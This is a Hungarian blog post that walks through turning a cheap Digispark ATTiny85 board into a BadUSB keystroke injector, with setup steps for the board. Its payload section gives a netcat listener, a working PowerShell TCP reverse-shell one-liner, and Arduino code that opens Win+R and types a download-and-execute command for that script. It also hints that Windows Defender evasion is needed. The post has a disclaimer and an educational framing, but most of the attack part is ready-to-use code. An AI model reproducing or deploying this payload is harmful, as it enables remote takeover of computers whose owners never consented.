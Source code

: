 +++
title= "Csak egy ártatlan pendrive"
date= 2024-07-23T19:22:46+02:00
draft= false
summary = "Filmekben lehet látni olyat, hogy a titkosügynökök a számítógépbe dugnak egy pendrive-ot és utána történik a varázslat. Ez is valami ehhez hasonló."
description = "Piacon már régota kint van a USB Rubber Ducky, ami lényegében egy pendrive-nak álcázott mikrokontroller. Közönséges érdelődők számára kicsit elérhetetlen áron van szerintem, mivel jelenleg $80 egy darab. Ezért szerettem volna kipróbálni egy olcsóbb de minőségben közelítő alternatívát."
tags = ['Digispark', 'badusb', 'infosec']
+++

Bedugod, eltelik 5 másodperc, megtörténik a varázs és kihúzod. Nem, ez most nem az forgatókönyv amire gondolsz, ez történik a USB Rubber Ducky-hez hasonló mikrokontrollerek használatakor. Lényegében a számítógép ilyenkor ezeket az eszközöket HID-ként, azaz Human Interface Device-ként kezeli, mint például egy billentyűzetet is. Ez azt engedi meg, hogy lényegében az USB bedugása után elindul az arra feltöltött program, és elkezdi gépelni ezerrel azt, mindeközben az operációs rendszer teljes engedelmességet tanusít. Első kérdés az lenne, hogy ezt miért teheti meg, miért nem kér a számítógép jogosultságot? Billentyűzetben is megbízik a számítógép, mivel ember ül mögötte nem pedig egy zsarolóprogram vagy bármi ilyesmi, és hasonlanó viszonyúl minden más HID-hez is, beleértve a "badUSB"-t is. Ezek a kis eszközök viszont sokkal gyorsabban tudnak gépelni mint egy ember, ezért a lehetőségeknek csak a kreativitás szab határt. Azt nem szabad elfelejteni, hogy talán azért nem jelent ez akkora biztonsági kockázatot, mint ahogyan én most itt felvezettem, mert egy nagyon fontos feltételnek teljesülnie kell a müködéséhez: fizikai jelenlét. Ez nagy kihívást jelenthet a legtöbb támadó fél számára, de az esély rá nem 0 tehát számolni kell vele. Olyanra is volt már példa, hogy célzottan például egy rendőrség vagy irodaház parkolójában szórtak szét ilyen kártékony USB-ket és az áldozatok, emberlétükre kiváncsiságból bedugták a szervezeti, céges számítógépükbe és a baj meg is történt még mielőtt észrevették volna.

Persze nem csak csúnya dolgokra lehet ezt használni. Ha például rendszergazdák vagyunk akkor akár a repetatív feladatokat könnyen felcserélhetjük egy bedugás és kihúzás mozdulatra ez segítségével.

## Felelősség

A tudás és a tapsztalat felelősséggel, és azon kötelességgel jár, hogy csak is embertársaink, és környezetünk előnyére, jólétére használhatjuk fel. Semmilyen körülmények között nem élhetünk vissza azzal a hatalommal, amelyet az élet ruházott ránk, amikor voltunk olyan szerencsések, hogy valamire rájöttünk, valamit megtanultunk. Ez különösen igaz a kiberbiztonság témakörében és még máskor is ki fogom ezt hangsúlyozni. Én az itt bemutatott technikákat csakis saját, vagy olyan rendszeren, számítógépen próbálom ki, amelyekhez engedélyt kaptam a tulajdonostól. A célom az a dokumentálás és a tanításnak a szándéka, hogy így egy biztonságosabb internet és informatika születhessen. **Ezáltal szeretném tisztázni, hogy engem semmilyen felelősség nem terhel, hogy TE a saját döntéseid után ezt a tudást mire használod.**

## Digispark ATTiny85

Az alternatívát a Digispark kínálja mely egy ATTiny85 8 bites RISC utasításkészletű mikrokontrollerrel rendelkezik, amely hála a fejlesztőknek, kompatibilis az Arduino IDE fejlesztői környezettel egy kis babrálás után. Az ára rendkívül baráti a $80-hoz képest, magyarországi forgalmazók 1500 Ft környékén árulják, de ha van időd megvárni, akkor lehet hogy Aliexpressről olcsőbban be tudod szerezni. Nem promóció de [itt](https://www.hestore.hu/prod_10036419.html) egy magyar forgalmazónál egy példa.

Itt a cukiság

![Digispark](/digispark.jpg)

### Ardunio IDE setup

Az Arduino IDE-t töltsd le a hivatalos oldalról, vagy csomagkezelőddel (nekem a csomagkezelős változat hiányos volt). Mivel ez nem egy Arduino board ezér külön le kell tölteni hozzá az illesztést. Ezt az alábbi módon tudod megtenni:
1. File >> Prefrences >> Additional board manager URLs: ide illeszd be ezt a linket **https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json** (más tutoriálokban esetleg más linket látsz az azért van mert azok még a hivatalos oldalról vannak, de sajnos nem olyan rég megszűnt a támogatás onnan, ezért kellett kiásnom a Github repo-ból ugyanarra a fájlra mutató linket).
2. Board manager >> Itt keresd meg a "Digistump AVR" csomagot és töltsd le.
3. Tools >> Itt a "programmer"-nél válaszd ki a Micronucleus-t, a "board"-nál pedig a Digispark 16,5 Mhz (default)-ot.

Kész is vagy!

### Egyéb

Az eredeti Arduino board-okat az operációs rendszerek automatikusan ellátják a megfelelő jogosultságokkal, hogy programozhatóak legyenek, de könnyen lehet hogy neked a Digisparkot nem ismeri fel hasonlóképpen. Ennek megoldásához Linuxon a továbbiakat kell tenned:

1. Hozz létre egy 49-micronucleus.rules fájlt az itt jelölt helyen: /etc/udev/rules.d/49-micronucleus.rules
2. Másold bele ezeket a sorokat és futtasd a parancsot: 
SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"
KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"

```sh 
sudo udevadm control --reload-rules
```

## Payload

Most már lehet programozni a kis cukiságot. Én példaképpen egy rendkívül egyszerű reverse shell-t fogok megvalósítani vele, a cél számítógép és a saját gépem között.

> **Reverse shell:** A shell az egy médium, egy interfész a felhasználó és a vas között, ami általában parancssorba gépelt utasításokat lefordít a számítógép nyelvére, hogy aztán a kernel segítségével végrehajtódjanak. A shell az vonatkozhat egy távoli eléréssel kapcsolódott számítógépre is, erre ismert protokolok például az SSH (Secure Shell). Ilyenkor a távoli számítógép "hallgatózik", hogy van-e valaki aki kapcsolatot akar teremteni vele, és ha mi akarunk az otthoni gépünkről elérni az ottani shell-t, akkor mi küldünk kérést neki. A **reverse shell** "reverse" része abból következik, hogy ilyenkor a szerepek feladata megcserélődik, a távoli gép kezdeményezi a csatlakozást. Ezt azért használják támadási vektornak mert a cél számítógép tűzfala a kimenő kéréseket nem akadályozza meg, de a bemenőeket igen. Egy ilyen reverse shell a támadónak esélyt ad, hogy fájlokat szolgáltasson ki, megteremtse a perzisztenciát, hogy ki-be tudjon járkálni kedve szerintde más sérülékenységekkel vegyítve tetszőleges célokat el tud érni vele.

![reverseshell](/reverse_shell.jpg)

Én ezt a legamatőrebb módon teszem meg (ez egy egy valós szituációban nem állna meg a helyét), csupán a koncepciót és a Digispark képességeinek egy töredékét szeretném bemutatni. A lényeg az, hogy lokálisan szolgáltatom egy php szerveren a powershell scriptet, illetve "hallgatózom" a saját gépemen a reverse shell kérést várva. Majd a cél gépen ezt a scriptet töltjük le (az USB segítségével), amit futtatva powershell-ben, csatlakozik a "hallgatózó" számítógépünkhez, így megteremtve a reverse shell-t. Ezt a folyamatot egy valós helyzetben botnettel csinálná a támadó szerintem, hogy a kilétét elfedje.

**Netcat-tel hallgatózom a 4444 porton**

```sh
nc -lp 4444
```

**php szerverrel szolgáltatom azt a könyvtárat, ahol a script van**

```sh
sudo php -S 0.0.0.0:80 -t /directory/to/folder/of/powershellScript/
```

**payload.ps1 fájl tartalma, ez a powershell script amit megosztunk**

Változtasd meg a saját host IP címedre a "HOST_IP_ADDRESS"-t.

```ps
$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Samratashok érdeme ez a kis script. [Github repo](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

Most pedig az amit tényleg az USB fog csinálni. Ugyebár úgy kell gondolkodnunk mintha egy billentyűzetet kellene programozni előre. Ahogy már említettem ehhez az Arduino IDE segítségünkre lesz.

```C
#include "DigiKeyboard.h" // a header ami leegyszerűsíti a parancsok kiírását
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0); // az eddigi gépelést "reset"-eljük
  DigiKeyboard.delay(500); // várást kell illetve ajánlott beiktatni, mert a számítógép sokszor nincs felkészülve a hirtelen billentyűnyomásra és esetleg figyelmenkívül hagy egy betűt, ezzel elrontva mindent akár
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Win + R
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('https://mywebserver/payload.ps1');\""); // az említett script letöltése és futtatása, itt amúgy nekem itt bejelezett a Windows Defender, ezért kifinomultabb delivery módszer szükséges
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // üres ciklus, hogy ne fusson le újra a script
  }
}
```
Ezt a kódot feltöltjük a Micronucleus-szal a Digispark-ra és már készen is vagyunk. A saját LAN-on most már bármelyik Windows gép fölött átvehetjük az irányítást.
